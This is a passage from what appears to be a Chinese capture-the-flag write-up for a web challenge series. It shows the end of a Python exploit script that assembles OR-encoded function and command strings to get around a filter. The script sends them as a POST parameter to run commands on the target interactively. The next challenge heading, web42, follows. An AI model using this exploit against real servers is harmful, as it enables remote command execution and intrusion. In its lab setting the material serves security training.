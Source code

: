 ```python
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)

```

将两个文件放在同一个文件夹，运行exp.py即可

羽师傅nb

![image-20241124223329525](assets/image-20241124223329525.png)

> 注意链接要用http不能用https

#### web42

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


```